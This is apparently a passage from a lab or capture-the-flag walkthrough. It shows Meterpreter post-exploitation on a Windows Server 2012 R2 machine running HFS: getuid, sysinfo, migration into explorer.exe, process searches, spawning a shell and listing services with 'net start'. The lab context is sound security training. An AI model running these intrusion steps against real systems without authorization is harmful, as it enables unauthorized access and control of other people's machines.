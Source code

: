 ```
 2756  2748  conhost.exe           x64   1        WIN-OMCNBKR66MN\Administrator  C:\Windows\System32\conhost.exe
 3052  2748  hfs.exe               x86   1        WIN-OMCNBKR66MN\Administrator  C:\hfs\hfs.exe

```

```
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > pgrep explorer.exe
2164
meterpreter > migrate 2164
[*] Migrating from 1288 to 2164...
[*] Migration completed successfully.
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

```
meterpreter > pgrep hfs.exe
3052
meterpreter > pgrep aws.exe
```

```
meterpreter > shell
Process 1660 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net start
net start
These Windows services are started:

   Amazon SSM Agent
   AWS Lite Guest Agent
   Background Tasks Infrastructure Service
   Base Filtering Engine
   Certificate Propagation
   CNG Key Isolation
   COM+ Event System
   Cryptographic Services
   DCOM Server Process Launcher
   Device Setup Manager
   DHCP Client
   Diagnostic Policy Service
   Diagnostics Tracking Service
   Distributed Link Tracking Client
```